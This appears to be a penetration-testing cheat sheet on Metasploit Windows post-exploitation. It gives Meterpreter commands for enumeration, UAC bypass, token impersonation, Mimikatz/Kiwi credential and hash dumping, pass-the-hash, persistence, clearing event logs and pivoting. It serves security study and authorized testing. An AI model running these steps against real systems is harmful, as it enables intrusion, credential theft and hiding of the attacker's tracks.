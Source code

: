 # MSF Windows Post Exploitation Modules

We can utilize these post exploitation modules to enumerate information about the Windows system we currently have access to:
+ Enumerate user privileges
+ Enumerate logged on users
+ VM check
+ Enumerate installed programs
+ Enumerate AVs
+ Enumerate computers connected to domain
+ Enumerate installed patches
+ Enumerate shares





## Local Enumeration

```

search upgrade platform:windows


windows/gather/

# privilege enumeration
search win_privs


# check wheter the target is a Virtual Machine
search checkvm

# Local Enumeration
search enum_logged_on
windows/gather/enum_shares
windows/gather/enable_rdp
windows/gather/enum_computer

windows/gather/enum_applications
windows/gather/enum_av_excluded
windows/gather/enum_patches



```




## Privilege Escalation


### Bypass UAC
We can utilize the "Windows Escalate UAC Protection Bypass (In Memory Injection)" module to bypass UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off.






### Token Impersonation With Incognito
Incognito is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user tokens after successful exploitation.

We can use the incognito module to display a list of available tokens that we can impersonate.


The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available.

The following are the privileges that are required for a successful impersonation attack:
- `SeAssignPrimaryToken`: This allows a user to impersonate tokens.
- `SeCreateToken`: This allows a user to create an arbitrary token with administrative privileges.
- `SeImpersonatePrivilege`: This allows a user to create a process under the security context of another user typically with administrative privileges.

```
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_toke "[TOKEN NAME]"
# then you may have to migrate to another process
meterpreter > migrate [PROCESS ID]



```







### Mimikatz
We can utilize the pre-built mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.

Kiwi allows us to dynamically execute Mimikatz on the target system without touching the disk.

Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of plaintext credentials from memory, password hashes from local SAM databases, and more.


```
meterpreter > pgrep lsass
meterpreter > migrate [LSASS PROCESS ID]
meterpreter > load kiwi
# (see all kiwi commands in help)
cred_all
lsa_dump_sam
lsa_dump_secrets


```






### Pass-The-Hash

Pass-the-hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.

This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.

We can use the `PsExec` module to legitimately authenticate with the target system via SMB.

```
meterpreter > hashdump

use exploit/windows/smb/psexec
	set SMBPass [DUMPED HASH]
	set target Native\ upload
```
















## Establishing Persistence On Windows


Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.

Gaining an initial foothold is not enough, you need to setup and maintain

We can utilize various post exploitation persistence modules to ensure that we always have access to the target system.


```
search platform:windows persistence


```


Example:
Use `exploit/windows/local/persistence_service`, then you can reconnect any time using `multi/handler` (user the same options specified in the persistence_service module)












## Clearing tracks / Clearing Windows Event Logs

The event logs are the first stop for any forensic investigator after a compromise has been detected. It is therefore very important to clear your tracks after you are done with your assessment.

The Windows OS stores and catalogs all actions/events performed on the system and stores them in the Windows Event log.

Event logs are categorized based on the type of events they store:
- Application logs: Stores application/program events like startups, crashes etc.
- System logs: Stores system events like startups, reboots etc.
- Security logs: Stores security events like password changes, authentication failures etc.

Event logs can be accessed via the `Event Viewer` on Windows.


```
meterpreter > clearev

meterpreter > rm [UPLOADED FILES]


```










## Pivoting

Pivoting is a post exploitation technique that involves utilizing a compromised host to attack other systems on the compromised host’s private internal network.

After gaining access to one host, we can use the compromised host to exploit other hosts on the same internal network to which we could not access previously.

Meterpreter provides us with the ability to add a network route to the internal network's subnet and consequently scan and exploit other systems on the network.


```
meterpreter > ipconfig

meterpreter > run autoroute -s 10.2.27.0/20

# Now we can run MSF modules to the new added route
# Example: > use auxiliary/scanner/portscan/tcp [victim 2 IP]

# Use port forwarding
meterpreter > portfwd add -l [LOCAL PORT] -p [victim 2 PORT] -r [victim 2 IP]

# then we can use nmap
db_nmap -sS -sV -p [LOCAL PORT forwaded] localhost


```

for a exploit in the victim 2 use `bind_tcp` instead of `reverse_tcp` payload




